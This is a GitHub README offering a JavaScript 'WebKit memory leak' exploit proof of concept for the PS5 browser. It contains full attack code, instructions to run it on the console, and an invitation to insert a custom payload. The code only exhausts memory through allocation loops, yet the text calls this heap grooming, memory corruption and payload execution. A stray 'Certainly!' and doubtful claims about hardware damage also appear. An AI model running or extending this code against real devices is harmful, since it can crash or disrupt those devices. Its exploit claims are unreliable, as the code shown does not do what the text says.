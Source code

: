 # Overflow WebKit Memory Leak PoC

## **DISCLAIMER**

**THIS REPOSITORY IS FOR TESTING PURPOSES ONLY!**  
A significant portion of this code might be incomplete or ineffective. If this vulnerability is ever fully exploited, it will likely be done by someone with far more expertise. I do not claim to be an expert in exploit development!

## Link
Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I've been developing. It is functional in its current form but still requires full exploitation. Below, you'll find the JavaScript code that outlines how the PoC operates, along with an explanation of each step.

## How it Works
The code operates in five key steps:

1. **Heap Initialization**: Memory is allocated in a controlled manner to prepare for the attack.
2. **Heap Grooming**: The memory is manipulated to create gaps for exploit insertion.
3. **Memory Exhaustion**: The system's memory resources are continuously allocated and cleared to exhaust available memory.
4. **Payload Execution**: The exploit's payload is executed, triggering memory corruption.
5. **Exploit Execution**: All steps are run sequentially to trigger memory exhaustion and ultimately crash the system.

## Code

```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track the number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap

    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

// Execute the exploit
performExploit();
```

## Instructions

1. Copy and execute the above code on an exploitable PS5 (works up to version 9.60). This may not be applicable on PS4.
2. Remember, this is a PoC, and it should be used strictly for educational purposes.
3. Further testing and analysis are required to fully understand this vulnerability.
4. If needed, insert your custom payload inside the `payload` function.

## Disclaimer
This PoC is for educational purposes only. The author assumes no responsibility for any misuse of this code. 
Certainly! 

## **WARNING**

Running this Proof of Concept (PoC) comes with **serious risks** to the target device, including but not limited to:

1. **Device Bricking**: Incorrect or unmodified execution of this code could result in an **irreversible brick** of the system, rendering it completely unusable. This means the device might stop functioning entirely, with no chance of recovery.

2. **Data Loss**: This PoC exploits memory vulnerabilities, which could lead to file corruption or the loss of important data.

3. **Incompatibility**: The exploit may not work on all firmware versions or devices. Running it on an unsupported system version could cause unexpected and damaging consequences.

4. **Hardware Damage**: Continuous memory exhaustion and allocation could stress the hardware resources, potentially causing long-term physical damage to the device.

5. **Legal Risks**: Unauthorized use of exploits or vulnerabilities on devices you do not own, or without explicit consent, could violate local laws or licensing agreements.

**DO NOT** run this code on critical devices or on devices that you are not prepared to lose. Modify the PoC and fully understand its workings before executing it to minimize risks. **The author is not responsible for any damage caused by using this code.**


## Credit
The credits for the structure on which this tool is based were written by the aforementioned idebty, the credits are therefore assigned to him for having found the flaw, I have only expanded the operation!:
**Author**: [idebty](https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09)  
